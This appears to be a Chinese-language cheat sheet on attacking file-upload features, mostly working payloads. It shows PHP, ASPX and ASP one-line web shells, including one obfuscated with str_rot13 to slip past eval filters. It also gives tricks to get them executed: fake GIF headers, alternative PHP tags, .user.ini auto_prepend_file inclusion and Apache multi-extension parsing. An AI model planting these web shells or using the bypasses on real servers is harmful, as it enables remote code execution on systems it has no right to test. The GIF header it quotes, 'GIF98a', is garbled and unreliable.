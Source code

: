 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx，.htaccess）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```

asp木马

```
<%eval request("shell")%>
```

特殊：通过上传.user.ini内部增加文件自动包含进行传马攻击

```
Auto_prepend_file=2.jpg
```

Apache的解析机制绕过

APACHE默认文件名中可以带.号，当解析文件遇到.号时，从右至左依次解析。比如：test.php.xxx.aaa，.xxx和.aaa这两种后缀是apache不可识别解析,apache就会把test.php.xxx.aaa解析成test.php

